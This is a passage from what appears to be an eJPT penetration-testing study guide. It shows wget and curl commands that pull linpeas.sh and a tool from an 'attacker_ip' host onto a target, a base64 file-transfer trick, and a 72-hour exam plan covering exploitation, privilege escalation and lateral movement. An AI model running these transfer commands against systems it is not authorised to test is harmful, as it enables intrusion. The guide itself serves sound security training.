```bash
# HTTP Download
python3 -m http.server 8080
wget http://attacker_ip:8080/linpeas.sh
curl -O http://attacker_ip:8080/tool.py

# Base64 Transfer
base64 tool.py
echo "base64_string" | base64 -d > tool.py

# Practice Goal: Privilege escalation in under 20 minutes per target
```

### eJPT Exam Tips & Strategies

#### Time Management Strategy
```markdown
# 72-Hour Exam Timeline (Recommended)

## Day 1 (24 hours): Initial Assessment
**Hours 1-8: Complete Network Enumeration**
- Host discovery across all network ranges
- Comprehensive port scanning of all discovered hosts
- Service enumeration and banner grabbing
- Document all findings systematically

**Hours 9-16: Vulnerability Assessment**  
- Run vulnerability scans on all services
- Research exploits for identified vulnerabilities
- Test manual exploitation techniques
- Prioritize targets based on exploitability

**Hours 17-24: Initial Exploitation Attempts**
- Attempt exploitation of highest-priority targets
- Focus on obtaining initial shell access
- Document successful and failed attempts
- Take regular breaks to maintain focus

## Day 2 (24 hours): Deep Exploitation
**Hours 25-32: Expand Access**
- Post-exploitation on successfully compromised systems
- Privilege escalation attempts
- Lateral movement exploration
- Network reconnaissance from compromised hosts

**Hours 33-40: Alternative Attack Vectors**
- Try different exploitation techniques on failed targets
- Explore web applications more thoroughly
- Test for weak credentials and default passwords
- Investigate less common services

**Hours 41-48: Documentation and Evidence**
- Organize all screenshots and command outputs
- Verify all findings can be reproduced
- Take final evidence screenshots
- Begin answering exam questions based on findings

## Day 3 (24 hours): Question Completion  
**Hours 49-60: Complete Exam Questions**
- Answer all 35 multiple-choice questions
- Use findings from previous 48 hours
- Double-check answers against evidence
- Review any uncertain questions

```